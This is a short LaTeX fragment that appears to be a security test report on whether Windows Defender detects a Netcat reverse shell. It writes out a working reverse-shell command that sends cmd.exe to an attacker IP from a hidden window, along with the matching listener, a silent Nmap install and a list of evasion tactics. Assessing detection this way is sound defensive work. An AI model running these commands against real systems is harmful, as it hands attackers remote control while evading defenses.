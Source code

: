 \documentclass[11pt]{article}
\begin{document}
	\begin{itemize}
		\item \textbf{Objective of the specific test:} To establish a reverse shell from the victim machine to the attacker machine using Netcat and assess if Windows Defender detects the connection attempt or the tool used.
		\item \textbf{Tools and Scripts Used:}
		\begin{itemize}
			\item `ncat.exe` (part of Nmap, installed via WinGet as per `cmd\_commands.txt` [cite: 252]).
			\item `cmd\_commands.txt`: Used to initiate the Ncat reverse shell connection[cite: 253].
			\item Attacker machine: Netcat listener (`nc -lvnp 12345`).
		\end{itemize}
		\item \textbf{Step-by-Step Execution Procedure:}
		\begin{enumerate}
			\item On the attacker machine, a Netcat listener was started: `nc -lvnp 12345`.
			\item On the victim machine, `cmd\_commands.txt` was executed.
			\item The batch script attempted to install Nmap (if not present) and then initiated the reverse shell: `start /min cmd /c "ncat 172.20.10.15 12345 -e cmd.exe"`[cite: 252, 253]. (Note: IP `172.20.10.15` needs to be the attacker's IP).
			\item If successful, a command prompt session from the victim machine appeared on the attacker's Netcat listener.
			\item Commands were executed remotely (e.g., `dir`, `whoami`).
		\end{enumerate}
		\item \textbf{Specific Evasion Methods Employed:}
		\begin{itemize}
			\item \textbf{Reverse Shell:} To bypass potential inbound firewall restrictions on the victim.
			\item \textbf{Using a legitimate tool (Ncat):} Nmap/Ncat can be used for legitimate network administration, potentially reducing suspicion.
			\item \textbf{Hidden Window:} `start /min cmd /c` attempts to run the command in a minimized/hidden window[cite: 253].
			\item \textbf{Automated Installation of Nmap:} The `cmd\_commands.txt` script attempts to install Nmap silently using WinGet[cite: 252], which might evade scrutiny if WinGet itself is trusted.
		\end{itemize}
	\end{itemize}
	
\end{document}
